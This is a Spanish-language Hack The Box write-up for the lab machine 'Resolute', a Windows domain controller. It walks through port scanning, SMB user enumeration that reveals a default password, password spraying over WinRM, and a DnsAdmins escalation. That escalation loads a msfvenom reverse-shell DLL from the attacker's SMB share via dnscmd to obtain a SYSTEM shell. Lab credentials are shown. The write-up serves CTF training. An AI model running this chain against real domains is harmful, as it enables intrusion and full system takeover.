



Hack The Box - Resolute [Active]

Contenido
- Contenido protegido por contraseña.
- Para desbloquear el contenido debes Ingresar la flag
root.txtde la maquina.
| Nombre | Resolute |
|---|---|
| OS | Windows |
| Puntos | 30 |
| Dificultad | Media |
| IP | 10.10.10.169 |
| Maker | egre55 |
MASSCAN & NMAP
Escaneo de puertos tcp/udp y servicios con masscan y nmap.
masscan -p1-65535,U:1-65535 10.10.10.169 --rate=1000 -e tun0
Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-01-03 21:06:25 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 3269/tcp on 10.10.10.169
Discovered open port 5985/tcp on 10.10.10.169
Discovered open port 464/tcp on 10.10.10.169
Discovered open port 65511/udp on 10.10.10.169
Discovered open port 593/tcp on 10.10.10.169
Discovered open port 49665/tcp on 10.10.10.169
Discovered open port 3268/tcp on 10.10.10.169
Discovered open port 49915/tcp on 10.10.10.169
Discovered open port 389/tcp on 10.10.10.169
Discovered open port 88/tcp on 10.10.10.169
Discovered open port 49667/tcp on 10.10.10.169
Discovered open port 56647/udp on 10.10.10.169
Discovered open port 53/tcp on 10.10.10.169
# Nmap 7.80 scan initiated Fri Jan 3 15:11:12 2020 as: nmap -p- --min-rate 1000 -sV -sC -o nmap_scan 10.10.10.169
Warning: 10.10.10.169 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.169
Host is up (0.14s latency).
Not shown: 63791 closed ports, 1719 filtered ports
PORT STATE SERVICE VERSION
53/tcp open tcpwrapped
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020-01-03 21:24:08Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp open adws?
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49671/tcp open unknown
49676/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49677/tcp open msrpc Microsoft Windows RPC
49688/tcp open msrpc Microsoft Windows RPC
49915/tcp open msrpc Microsoft Windows RPC
52015/tcp open tcpwrapped
52105/tcp open tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h48m08s, deviation: 4h37m09s, median: 8m07s
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: Resolute
| NetBIOS computer name: RESOLUTE\x00
| Domain name: megabank.local
| Forest name: megabank.local
| FQDN: Resolute.megabank.local
|_ System time: 2020-01-03T13:25:11-08:00
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020-01-03T21:25:14
|_ start_date: 2020-01-03T20:29:32
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 3 15:18:57 2020 -- 1 IP address (1 host up) scanned in 464.61 seconds
ENUM4LINUX
Vemos que tenemos muchos puertos por enumerar vamos a iniciar con windows en samba con enum4linux, enumerando los usuarios dentro de la maquina.
==========================
| Target Information |
==========================
Target ........... 10.10.10.169
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
====================================================
| Enumerating Workgroup/Domain on 10.10.10.169 |
====================================================
[E] Can't find workgroup/domain
============================================
| Nbtstat Information for 10.10.10.169 |
============================================
Looking up status of 10.10.10.169
No reply from 10.10.10.169
=====================================
| Session Check on 10.10.10.169 |
=====================================
[+] Server 10.10.10.169 allows sessions using username '', password ''
[+] Got domain/workgroup name:
===========================================
| Getting domain SID for 10.10.10.169 |
===========================================
Domain Name: MEGABANK
Domain Sid: S-1-5-21-1392959593-3013219662-3596683436
[+] Host is part of a domain (not a workgroup)
======================================
| OS information on 10.10.10.169 |
======================================
[+] Got OS info for 10.10.10.169 from smbclient:
[+] Got OS info for 10.10.10.169 from srvinfo:
Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED
=============================
| Users on 10.10.10.169 |
=============================
index: 0x10b0 RID: 0x19ca acb: 0x00000010 Account: abigail Name: (null) Desc: (null)
index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator Name: (null) Desc: Built-in account for administering the computer/domain
index: 0x10b4 RID: 0x19ce acb: 0x00000010 Account: angela Name: (null) Desc: (null)
index: 0x10bc RID: 0x19d6 acb: 0x00000010 Account: annette Name: (null) Desc: (null)
index: 0x10bd RID: 0x19d7 acb: 0x00000010 Account: annika Name: (null) Desc: (null)
index: 0x10b9 RID: 0x19d3 acb: 0x00000010 Account: claire Name: (null) Desc: (null)
index: 0x10bf RID: 0x19d9 acb: 0x00000010 Account: claude Name: (null) Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null) Desc: A user account managed by the system.
index: 0x10b5 RID: 0x19cf acb: 0x00000010 Account: felicia Name: (null) Desc: (null)
index: 0x10b3 RID: 0x19cd acb: 0x00000010 Account: fred Name: (null) Desc: (null)
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest Name: (null) Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo Name: (null) Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null) Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus Name: (null) Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie Name: (null) Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki Name: (null) Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo Name: (null) Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per Name: (null) Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan Name: Ryan Bertrand Desc: (null)
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally Name: (null) Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon Name: (null) Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve Name: (null) Desc: (null)
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie Name: (null) Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita Name: (null) Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf Name: (null) Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach Name: (null) Desc: (null)
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
=========================================
| Share Enumeration on 10.10.10.169 |
=========================================
Sharename Type Comment
--------- ---- -------
SMB1 disabled -- no workgroup available
[+] Attempting to map shares on 10.10.10.169
====================================================
| Password Policy Information for 10.10.10.169 |
====================================================
[+] Attaching to 10.10.10.169 using a NULL share
[+] Trying protocol 445/SMB...
[+] Found domain(s):
[+] MEGABANK
[+] Builtin
[+] Password Info for Domain: MEGABANK
[+] Minimum password length: 7
[+] Password history length: 24
[+] Maximum password age: Not Set
[+] Password Complexity Flags: 000000
[+] Domain Refuse Password Change: 0
[+] Domain Password Store Cleartext: 0
[+] Domain Password Lockout Admins: 0
[+] Domain Password No Clear Change: 0
[+] Domain Password No Anon Change: 0
[+] Domain Password Complex: 0
[+] Minimum password age: 1 day 4 minutes
[+] Reset Account Lockout Counter: 30 minutes
[+] Locked Account Duration: 30 minutes
[+] Account Lockout Threshold: None
[+] Forced Log off Time: Not Set
[+] Retieved partial password policy with rpcclient:
==============================
| Groups on 10.10.10.169 |
==============================
[+] Getting builtin groups:
group:[Account Operators] rid:[0x224]
group:[Pre-Windows 2000 Compatible Access] rid:[0x22a]
group:[Incoming Forest Trust Builders] rid:[0x22d]
group:[Windows Authorization Access Group] rid:[0x230]
group:[Terminal Server License Servers] rid:[0x231]
group:[Administrators] rid:[0x220]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Print Operators] rid:[0x226]
group:[Backup Operators] rid:[0x227]
group:[Replicator] rid:[0x228]
group:[Remote Desktop Users] rid:[0x22b]
group:[Network Configuration Operators] rid:[0x22c]
group:[Performance Monitor Users] rid:[0x22e]
group:[Performance Log Users] rid:[0x22f]
group:[Distributed COM Users] rid:[0x232]
group:[IIS_IUSRS] rid:[0x238]
group:[Cryptographic Operators] rid:[0x239]
group:[Event Log Readers] rid:[0x23d]
group:[Certificate Service DCOM Access] rid:[0x23e]
group:[RDS Remote Access Servers] rid:[0x23f]
group:[RDS Endpoint Servers] rid:[0x240]
group:[RDS Management Servers] rid:[0x241]
group:[Hyper-V Administrators] rid:[0x242]
group:[Access Control Assistance Operators] rid:[0x243]
group:[Remote Management Users] rid:[0x244]
group:[System Managed Accounts Group] rid:[0x245]
group:[Storage Replica Administrators] rid:[0x246]
group:[Server Operators] rid:[0x225]
[+] Getting builtin group memberships:
Group 'IIS_IUSRS' (RID: 568) has member: Couldn't lookup SIDs
Group 'System Managed Accounts Group' (RID: 581) has member: Couldn't lookup SIDs
Group 'Windows Authorization Access Group' (RID: 560) has member: Couldn't lookup SIDs
Group 'Pre-Windows 2000 Compatible Access' (RID: 554) has member: Couldn't lookup SIDs
Group 'Remote Management Users' (RID: 580) has member: Couldn't lookup SIDs
Group 'Guests' (RID: 546) has member: Couldn't lookup SIDs
Group 'Event Log Readers' (RID: 573) has member: Could not initialise pipe samr. Error was NT_STATUS_INVALID_NETWORK_RESPONSE
Group 'Users' (RID: 545) has member: Could not initialise pipe samr. Error was NT_STATUS_INVALID_NETWORK_RESPONSE
Group 'Administrators' (RID: 544) has member: Couldn't lookup SIDs
[+] Getting local groups:
group:[Cert Publishers] rid:[0x205]
group:[RAS and IAS Servers] rid:[0x229]
group:[Allowed RODC Password Replication Group] rid:[0x23b]
group:[Denied RODC Password Replication Group] rid:[0x23c]
group:[DnsAdmins] rid:[0x44d]
[+] Getting local group memberships:
Group 'DnsAdmins' (RID: 1101) has member: Couldn't lookup SIDs
Group 'Denied RODC Password Replication Group' (RID: 572) has member: Couldn't lookup SIDs
[+] Getting domain groups:
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Contractors] rid:[0x44f]
[+] Getting domain group memberships:
Group 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
Group 'Domain Users' (RID: 513) has member: MEGABANK\DefaultAccount
Group 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
Group 'Domain Users' (RID: 513) has member: MEGABANK\ryan
Group 'Domain Users' (RID: 513) has member: MEGABANK\marko
Group 'Domain Users' (RID: 513) has member: MEGABANK\sunita
Group 'Domain Users' (RID: 513) has member: MEGABANK\abigail
Group 'Domain Users' (RID: 513) has member: MEGABANK\marcus
Group 'Domain Users' (RID: 513) has member: MEGABANK\sally
Group 'Domain Users' (RID: 513) has member: MEGABANK\fred
Group 'Domain Users' (RID: 513) has member: MEGABANK\angela
Group 'Domain Users' (RID: 513) has member: MEGABANK\felicia
Group 'Domain Users' (RID: 513) has member: MEGABANK\gustavo
Group 'Domain Users' (RID: 513) has member: MEGABANK\ulf
Group 'Domain Users' (RID: 513) has member: MEGABANK\stevie
Group 'Domain Users' (RID: 513) has member: MEGABANK\claire
Group 'Domain Users' (RID: 513) has member: MEGABANK\paulo
Group 'Domain Users' (RID: 513) has member: MEGABANK\steve
Group 'Domain Users' (RID: 513) has member: MEGABANK\annette
Group 'Domain Users' (RID: 513) has member: MEGABANK\annika
Group 'Domain Users' (RID: 513) has member: MEGABANK\per
Group 'Domain Users' (RID: 513) has member: MEGABANK\claude
Group 'Domain Users' (RID: 513) has member: MEGABANK\melanie
Group 'Domain Users' (RID: 513) has member: MEGABANK\zach
Group 'Domain Users' (RID: 513) has member: MEGABANK\simon
Group 'Domain Users' (RID: 513) has member: MEGABANK\naoki
Group 'Contractors' (RID: 1103) has member: MEGABANK\ryan
Group 'Enterprise Admins' (RID: 519) has member: MEGABANK\Administrator
Group 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator
Group 'Domain Controllers' (RID: 516) has member: MEGABANK\RESOLUTE$
Group 'Schema Admins' (RID: 518) has member: MEGABANK\Administrator
Group 'Domain Computers' (RID: 515) has member: MEGABANK\MS02$
Group 'Domain Guests' (RID: 514) has member: MEGABANK\Guest
Group 'Domain Admins' (RID: 512) has member: MEGABANK\Administrator
=======================================================================
| Users on 10.10.10.169 via RID cycling (RIDS: 500-550,1000-1050) |
=======================================================================
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED. RID cycling not possible.
=============================================
| Getting printer info for 10.10.10.169 |
=============================================
Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED
enum4linux complete on Mon Jan 6 16:32:54 2020
Enum4linux nos muestra la lista de grupos, usuarios, dominio, entre mucha otra informacion de interes, pero especificamente en la parte de usuarios nos muestra un comentario del usuario marko, el cual contiene un comentario en la descripcion y nos indica que la contraseña que le fue impuesta a este usuario es Welcome123!.
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak Desc: Account created. Password set to Welcome123!
Al intentar iniciar sesion o enumerar los SHARENAMES con smbmap y smbclient junto con las credenciales, no fue posible, utilizamos evil-winrm, ya que el puerto 5985 de winrm esta abierto en la maquina para intentar ingresar en ese puerto, pero nos muestra un mensaje de error de Autenticacion.
User - Melanie
Sin descartar la contraseña que encontramos utilizamos un pequeño diccionario con los usuarios disponibles en la maquina y, junto a un pequeño script de bash y evil-winrm, intentar con cada usuario la contraseña Welcome123!. Al hacer esto logramos que la usuario Melanie iniciara sesion satisfactoriamente en winrm, obteniendo asi una shell y nuestra flag user.txt.

User - Ryan
Al ingresar a la maquina hicimos una enumeracion de archivos, en el dsco C:/ encontramos un archivo que contiene un log de ejecucion de comandos, entre los comandos vemos que se utilizó net use junto con un usuario y una contraseña que pertenecen a ryan.

Credenciales:
ryan:Serv3r4Admin4cc123!
PRIVILEGE ESCALATION - Abusing DNSAdmins
Utilizamos evil-winrm nuevamente para obtener una shell con el usuario ryan, enumeramos los grupos en los que el usuario se encuentra (Domain Users, Contractors).

whoami /groups nos da mejor informacion sobre este usuario, vemos que ryan pertenece a varios grupos, uno de ellos es MEGABANK\DnsAdmins.

Ya que ryan pertenece a DnsAdmins vamos a explotar de que pertenece a este grupo para poder cargar un fichero DLL con privilegios de administrador en el Servidor de DNS que la maquina tiene corriendo.
Primero vamos a crear un archivo DLL con msfvenom para ejecutar una shell inversa hacia nuestra maquina.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1339 --platform=windows -f dll > revshell.dll
Creamos un servidor de SAMBA utilizando las herramientas de impacket y ponemos a la escucha netcat en nuestra maquina o de igual forma con metasploit.
python smbserver.py DLL .
Ya que el servidor DNS esta corriendo sobre el Domain Controller (DC) podemos utilizar simplemente dnscmd para poder cargar el DLL.
dnscmd /config /serverlevelplugindll \\10.10.15.105\DLL\revshell.dll
Luego de ello vamos a parar e iniciar el servidor DNS nuevamente.
sc.exe stop dns; sc.exe start dns
Obtenemos una respuesta en nuestro servidor SMB y nuestra shell con privilegios de Administrador.
SMB:

Obtenemos una sesion en Metasploit:
msf5 exploit(multi/handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/x64/shell_reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 10.10.15.105 yes The listen address (an interface may be specified)
LPORT 1339 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.10.15.105:1339
[*] Command shell session 1 opened (10.10.15.105:1339 -> 10.10.10.169:52284) at 2020-01-07 19:05:30 -0600
C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>
Cambiamos a una shell de windows y leemos nuestra flag root.txt.
